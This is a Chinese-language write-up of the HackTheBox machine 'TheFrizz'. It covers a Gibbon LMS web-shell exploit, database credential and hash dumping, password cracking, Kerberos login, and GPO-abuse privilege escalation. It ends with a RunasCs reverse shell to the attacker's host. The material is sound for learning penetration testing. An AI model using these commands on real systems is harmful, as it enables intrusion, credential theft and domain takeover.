## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/TheFrizz  
❯ nmap thefrizz.htb -sV -A                                                                                                                                

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

将**frizz.htb**添加到**/etc/hosts**



将**frizzdc.frizz.htb**添加到**/etc/hosts**

发现是一个**Gibbon**服务，版本号是**25.0.0**



## CVE-2023-45878

- [usd-2023-0025 - usd HeroLab](https://herolab.usd.de/security-advisories/usd-2023-0025/)

经过尝试如下发包


然后即可访问**asdf.php**进行命令执行



这里我尝试过反弹**Shell**，可以写一个**Meterpreter**。

通过**dir**可以看到当前目录存在一个**config.php**



```
http://frizzdc.frizz.htb/Gibbon-LMS/asdf.php?cmd=type config.php
```

得到一个数据库用户名和密码

```
<?php
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

尝试进入数据库看看信息

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"
```



```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
```



```
C:\xampp\mysql\bin>.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E                                                                                                                                                      
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E                                                                                                             
*************************** 1. row ***************************                                                                                                                                                   
           gibbonPersonID: 0000000001                                                                                                                                                                                                      
                    title: Ms.                                                                                                                                                                                                             
                  surname: Frizzle                                                                                                                                                                                                         
                firstName: Fiona                                                                                                                                                                                                           
            preferredName: Fiona                                                                                                                                                                                                           
             officialName: Fiona Frizzle                                                                                                                                                                                                   
         nameInCharacters:                                                                                                                                                                                                                 
                   gender: Unspecified                                                                                                                                                                                                     
                 username: f.frizzle                                                                                                                                                                                                                                         
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6bcxxxxxxxxxxxxxxxxxxxxxx                                                                                                                                                                              
       passwordStrongSalt: /aACFhikmNxxxxxxxxxx                                                                                                                                                                                                                          
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
           emailAlternate: NULL
                image_240: NULL
            lastIPAddress: ::1
            lastTimestamp: 2024-10-29 09:28:59
        lastFailIPAddress: 10.10.16.26
        lastFailTimestamp: 2025-03-17 08:29:30
                failCount: 11
                 address1: 
         address1District: 
          address1Country: 
                 address2: 
```

## Crack Passwd

得到了密码**hash**以及加密的盐，加密方式应该是**SHA-256**

注意！！！！

这里使用**john**来进行爆破，注意哈希格式

```
[root@kali] /home/kali/TheFrizz  
❯ john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash.txt                                                              ⏎
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=sha256($s.$p) [128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxxxxxxxx (?)   
```

经过验证，密码是正确的



## Unexpected User

这里无法直接通过密码登录到**Evil-winrm**

尝试通过**Kerberos**请求票据，然后再尝试**evil-Winrm**的票据登录

```
[root@kali] /home/kali/TheFrizz  
❯ ntpdate frizzdc.frizz.htb                                                                 

[root@kali] /home/kali/TheFrizz  
❯ impacket-getTGT frizz.htb/'f.frizzle':'xxxxxxxxxxxxx' -dc-ip frizzdc.frizz.htb     

[*] Saving ticket in f.frizzle.ccache

[root@kali] /home/kali/TheFrizz  
❯ export KRB5CCNAME=f.frizzle.ccache  
```



如果遇到上面的情况👆，请尝试将**VPN**换到**US - Release Arena**，当然切换了就会很卡。。。



之后这个方式被修补了，**5985**端口被关闭掉。

## Expected User

这里有一个巨大的坑，**/etc/hosts**必须如下设置，具体的下面说

```
10.10.11.60     frizzdc.frizz.htb frizz.htb
```

修改**/etc/krb5.conf**，这个是**Kerberos**的配置文件，通过这种方式，**Kerberos** 客户端可以使用该配置与 **Kerberos** 认证服务器进行通信

```
[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB

[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true

[realms]
    FRIZZ.HTB = {
        kdc = FRIZZDC.FRIZZ.HTB
        admin_server = FRIZZDC.FRIZZ.HTB
        default_domain = FRIZZ.HTB
    }
```

使用**kinit**获取票据，之后可以使用**klist**查看是否成功

```
[root@kali] ~kali/TheFrizz  
❯ kinit f.frizzle@FRIZZ.HTB
```

然后使用**ssh**登录，使用**\-K**参数通过**GSSAPI**认证，便能成功连接。

```
[root@kali] ~kali/TheFrizz  
❯ ssh f.frizzle@frizz.htb -K 
```



## Attention

以下内容可能会有所错误，望读者能指正🤔

上面的**/etc/hosts**里的域名必须十分严格的按照顺序排列，必须是**frizzdc**在最前面，会被优先解析

**Kerberos** 的域名解析和认证确实依赖于配置文件中的顺序和 `/etc/hosts` 文件的正确配置。错误的域名解析会导致 **KDC** 无法正确找到或验证目标主机，从而导致 **Kerberos** 或 **GSSAPI** 认证失败。因此，确保 `/etc/hosts` 中的域名与 `krb5.conf` 配置中的域名一致，并且没有冲突，是至关重要的。

如果在 `/etc/hosts` 文件中添加了一个自定义的 `thefrizz.htb`，并且这个域名并不属于目标主机的实际域名，那么它可能会影响 GSSAPI 和 Kerberos 认证，特别是当你使用 Kerberos 时，认证过程依赖于域名的正确匹配。

具体的可以参考一下，如果是其他域名被优先设置的情况，你可以使用**ssh -vvv**参数查看到这个错误



如果你将一个不存在的域名（例如 `thefrizz.htb`）放在 `/etc/hosts` 中并指向错误的 IP，那么 Kerberos 客户端就会使用这个错误的主机名进行身份验证，导致 `Server not found in Kerberos database` 或类似错误。

如果将**frizzdc.frizz.htb**放到最前面的话，查看详细输出，可以看到是认证成功。



出于个人习惯，我会将机器名称添加到**/etc/hosts**，没想到会在这里出问题，长知识了。

## Privilege Escalation

先使用**bloodhound**分析一波

```
[root@kali] /home/kali/TheFrizz  
❯ bloodhound-python -u 'f.frizzle' -p 'xxxxxxxxx' -d frizz.htb -dc frizzdc.frizz.htb -ns 10.xx.xx.xx  -c all  --zip
```

当前的**f.frizzle**用户并没有什么特别的权限，因此尝试查看域内的其他用户





可以看到**m.schoolbus**这个用户有较高权限，但是当前的**f.frizzle**对其没有控制权限。

在回收站的目录中，发现有一个压缩包，**SID**是**f.frizzle**的



这里不好直接传输，我是用**meterpreter**进行传输的

```
[root@kali] /home/kali  
❯ 7z x '$RE2XMEG.7z' -o./extracted
```


在这里刚好拿到了一串密码，经过测验就是**m.schoolbus**的密码。



同样的步骤登录到**M.schoolbus**



注意！！！！

这个提权的预期应该是通过**M.schoolbus**来进行**GPO abuse**，但是我的**Bloodhound**和**Sharphound**都没有发现这权限。因此以下仅仅作为参考。

- [antonioCoco/RunasCs: RunasCs - Csharp and open version of windows builtin runas.exe](https://github.com/antonioCoco/RunasCs)

- [byronkg/SharpGPOAbuse: Precompiled executable](https://github.com/byronkg/SharpGPOAbuse)

```
PS C:\Temp> New-GPO -Name pain | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes

GpoId       : f97a73ca-2745-4375-857c-4ee8fe1b0256
DisplayName : pain
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 2
```

- 创建名为 pain 的 GPO。

- 将其链接到 FRIZZ.HTB 域中的 DOMAIN CONTROLLERS 组织单元。

- 确保该链接已启用，使该 GPO 在该 OU 内的所有对象（即域控制器）上生效。

```
PS C:\Temp> Get-GPO -All | Select DisplayName,Id                                                            

DisplayName                       Id
----------- --
Default Domain Policy             31b2f340-016d-11d2-945f-00c04fb984f9
Default Domain Controllers Policy 6ac1786c-016f-11d2-945f-00c04fb984f9
pain                              8f13d279-2073-4d35-be51-f6adcf66f25c

PS C:\Temp> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName pain                    
[+] Domain = frizz.htb
[+] Domain Controller = frizzdc.frizz.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
[+] SID Value of M.SchoolBus = S-1-5-21-2386970044-1145388522-2932701813-1106
[+] GUID of "pain" is: {8F13D279-2073-4D35-BE51-F6ADCF66F25C}
[+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{8F13D279-2073-4D35-BE51-F6ADCF66F25C}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

接下来刷新**GPO**

```
PS C:\Temp> gpupdate /force                     
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

查看是否已经加入了管理员组

```
PS C:\Temp> net localgroup Administrators                                                                   
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
M.SchoolBus
The command completed successfully.
```

可以看到尽管已经在管理员组，但是无法读取到**root.txt**


因为需要重新登录，但是这里如果直接**exit**退出，有一定概率再也连不上**PS**，所以这里我用**RunasCS**来开启另一个进程，间接刷新。

```
PS C:\Temp>  .\RunasCs.exe M.SchoolBus !suBcig@MehTed!R cmd.exe -r 10.10.xx.xx:8888

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-67acc$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 3644 created in background.
```



## Summary

`User`：通过**Gibbon**创建恶意**PHP**文件来命令执行，在目录下发现数据库的配置文件。进入到数据库中拿到**f.frizzle**的密码哈希，破解后获取到票据，通过**ssh**登录拿到**user**。

`Root`：这里我尝试过很多方法，都无法查看到**WriteGPOlink**这个权限，或许是机器的问题。具体流程就是通过**GPO**来将**M.schoolbus**添加到管理员组里面。



机器的思路很好，但是实际打起来很难受。太遗憾了。
